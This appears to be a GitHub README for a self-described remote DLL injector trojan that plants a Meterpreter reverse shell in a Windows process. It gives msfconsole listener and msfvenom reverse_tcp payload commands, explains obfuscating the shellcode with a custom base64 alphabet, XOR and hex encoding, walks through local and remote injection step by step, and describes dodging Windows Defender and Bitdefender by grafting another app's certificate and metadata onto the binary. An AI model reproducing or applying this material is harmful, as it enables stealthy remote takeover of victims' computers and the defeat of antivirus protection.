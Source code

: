 # Remote Dll injector Trojan
Trojan using dll injection of a custom library that spawns a shell on a target machine, undetected by Windows defender and Bitdefener

# 💻 Code

<img align="right" src="media/a1.png" width="440" />

This malware injects a malicious library into a target process or directly creates a process and uploads the library into it, the dll contains a simple encoded base64 data that spawns a reverse shell.

### 0) Listener and payload

- First i used the classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

- The payload is a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

- Once we have the shellcode we encode the binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
  
- Secondly we apply XOR encryption using a single-byte key;
  
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 1) DLL
The malicious library contains 4 different call cases, process attach/detach, and thread create/delete, the best one is in my opinion the first one. When the library is attached to the process, it runs arbitrary code, in the sample there is a simple windows message box, in the actual dll the code decodes base64 encoded data and uploads the shellcode containing the reverse shell to memory. You can create a dll on Visual Studio by making a new project and selecting the dll template, also rememeber to build both the dll and the injector in release mode and in the same architecture.

### 2) Local Injection

The local injection takes the dynamic library which is already located into the disk (basically useless, just a sample), creates a process and injects the library into it. Here is a detailed explanation: 

- First we locate the dll and we load it into the same process that runs it; 
- Then we create a thread and execute whatever we want, for example calling a function from inside the dll or running multiple tasks;

Because our dll is executed by the main function of our process, the thread isn't mandatory, you can use it for example to call a function from the dll if it needs to run in the background or loop continuously. 

### 2.1) Remote Injection

The remote injection dumps the dynamic library into disk (might get detected tho as anything that gets written into disk is automathically scanned by the antivirus), looks for a specific process and injects the library into it. Here is a detailed explanation: 

- First of all we put the malicious dll in the same folder as the injector, we create a resource file and its header and we set the dll as a resource of the injector;
- Secondly on the injector we locate the resource file, calculate its size, upload it to memory, and lock it for access so it can be used without being moved;
- Thirdly we extract the dll from the executable and write it to disk;
- We find a process by PID, allocate memory the size of the dll path inside of it and write the path into the process;
- Then we get the base address of kernel32 dll to get the pointer of the function which will load the malicious library;
- Finally we create a thread that executes the function that loads the malicious dll;


# 🛡 Obfuscation and AV Detection 

<img align="right" src="media/av1.png" width="340" />

Both codes are undetected by Windows defender. The remote injection exe on virustotal got 10 detections, but using a simple certificate and metadata manager like Process Hacker (free an open source) i uploaded the data of a common app (in my case it was github desktop setup) and the AVs detections went from 10 to 1 in an instant, and for the first time Bitdefender didn't flag it as suspicious 😀!!! The file went from a few kilobytes to like 10mb tho so i think i'll have to work on that, maybe by embedding only the essential metadata and certificates.


<img align="left" src="media/av4.png" width="540" />
